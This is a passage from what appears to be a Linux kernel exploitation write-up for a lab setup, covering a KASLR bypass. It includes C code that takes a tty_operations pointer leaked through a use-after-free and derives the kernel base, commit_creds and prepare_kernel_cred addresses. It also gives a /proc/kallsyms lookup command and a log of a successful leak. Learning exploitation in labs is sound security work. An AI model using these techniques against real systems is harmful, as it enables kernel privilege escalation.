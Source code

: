 ```c

calculate_kernel_addresses();
```

where the functions called are as such:

```c

int is_kernel_pointer(uint64_t ptr) {
    return (ptr & 0xffff000000000000UL) == 0xffff000000000000UL;
}

void calculate_kernel_addresses(uint64_t tty_ops) {
    printf("[+] KASLR bypass using tty_ops: 0x%lx\n", tty_ops);
    base_address = tty_ops - ops_offset_from_text;
    // Calculate important function addresses using known offsets from _text
    commit_creds = base_address + commit_creds_offset;           
    prepare_kernel_cred = base_address + prepare_kernel_cred_offset;
    // .... other gadgets and function
}
```

Since we have a stripped vmlinux binary, You can add a SUID `sh` binary in the qemu by following [lkmidas's ](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/) instructions and then use commands like the following to find offsets and base address for that OS run:

```sh
cat /proc/kallsyms | grep "T _text"
```

The output for my actual code looks like:
```sh
Part 1: Leak Address with tty_struct

[+] Opened vulnerable device: fd=3
[+] Allocated buffer of size 1024
[+] Starting tty_struct spray and leak attempt
[+] Freed buffer (UAF created)
[+] Opening PTY devices to trigger tty_struct allocation...
  Opened PTY 0: fd=4
  Opened PTY 1: fd=5
  Opened PTY 2: fd=6
  Opened PTY 3: fd=7
  .... Opening more
[+] Opened 20 PTY devices
[+] Attempting to read freed memory...
[+] Successfully read 1024 bytes from freed memory

[DEBUG] Analyzing potential tty_struct:
  kref.refcount: 0x1 (1)
  index: 0
  dev: 0x0
  driver: 0xff3e28f701994540
  port: 0xff3e28f701bcee00
  ops: 0xffffffffb1e85100
ops is a kernel pointer

[SUCCESS] Found valid tty_struct!
  tty_operations pointer: 0xffffffffb1e85100
[+] KASLR bypass using tty_ops: 0xffffffffb1e85100
[SUCCESS] KASLR bypassed! Calculated addresses:
  _text: 0xffffffffb0c00000
  commit_creds: 0xffffffffb0cb9970
  prepare_kernel_cred: 0xffffffffb0cb9c20
  swapgs_restore_regs_and_return_to_usermode: 0xffffffffb1c01670
...
```